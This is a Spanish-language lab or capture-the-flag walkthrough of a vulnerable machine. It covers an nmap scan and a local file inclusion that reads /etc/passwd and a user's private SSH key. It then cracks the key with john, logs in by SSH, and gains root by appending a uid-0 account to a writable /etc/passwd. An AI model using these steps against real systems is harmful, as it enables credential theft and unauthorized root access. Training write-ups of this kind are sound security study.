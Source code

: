 ## Reconocimiento
Procedimiento rutinario con nmap.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.108 > scan
```

![](Screenshot%20from%202023-12-23%2021-38-52.png)
- SSH en el puerto 22. En su versión 7.9 que no tiene alguna vulnerabilidad grave.
- Un pagina montada con apache en el puerto 80.
- Se realizaron pruebas de fuzzing con `gobuster` pero no se encontro nada relevante

Accedemos a la pagina en cuestión
![](Screenshot%20from%202023-12-23%2021-41-28.png)
Si accedemos al `modo inspeccionar` y filtramos por `php` o `?`. Podemos ver que tenemos una url interesante.
![](Screenshot%20from%202023-12-23%2021-45-59.png)

## Local File Inclusion (LFI)
Si cambiamos `Doctors.html` por `/etc/passwd` podemos ver que nos lista el fichero. 
![](Screenshot%20from%202023-12-23%2021-50-04.png)
- Tenemos tres usuarios al parecer
	- root
	- admin
	- www-data

Buscamos el `id_rsa` del usuario `admin`
![](Screenshot%20from%202023-12-23%2021-51-56.png)
Usamos [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)para convertir el `id_rsa` en un hash que podemos intentar crackear con [john](https://github.com/openwall/john).
``` bash
./ssh2john.ph id_rsa > id_rsa.txt

# ejecutamos john
john id_rsa.txt --wordlist=/usr/share/dict/rockyou.txt
```
![](Screenshot%20from%202023-12-23%2023-57-33.png)
Nos conectamos por ssh con el usuario `admin`, haciendo uso del `id_rsa` y la contraseña `unicorn`.
``` bash
ssh -i id_rsa admin@192.168.0.108
```
![](Screenshot%20from%202023-12-24%2000-01-57.png)

## Privsec
Algunas consideraciones al tratar de buscar alguna vulnerabilidad...
- No tenemos _sudo_ instalado, por ende no podemos usar `sudo -l`
- Si bien se ejecuta un versión 4.19 del kernel que tiene algunas vulnerabilidades. No reunimos con los requisitos necesarios para explotarlos.
- A nivel de SUID, ejecutando `find / -perm -4000 2>/dev/null` no encontramos algun ejecutable que nos permita realizar privesc. 

El paso necesario para poder escalar privilegios es la de ver en que archivos tenemos permisos de escritura, en este caso estamos buscando en todos los directorios excepto `var, proc, sys o home` directorios.

``` bash
$ find / -writable -type f 2>/dev/null | grep -viE "var|proc|sys|home"
/etc/passwd
```

Como podemos ver en este [artículo](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) de HackTricks, podemos abusar del permiso de escritura sobre el archivo que esta en `/etc/passwd`.
``` bash
openssl passwd -1 -salt hacker hacker

# Otras opciones disponibles
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

``` bash 
# Despues agregamos el usuario hacker junto con la contraseñá generada en /etc/passwd
...
hacker:<GENERATED_PASSWORD_HERE>:0:0:Hacker:/root:/bin/bash
...
```
Ingresamos como root a traves del usuario `hacker` con su contraseña `hacker`
``` bash
su hacker
```
![](Screenshot%20from%202023-12-24%2001-43-10.png)
Eso es todo.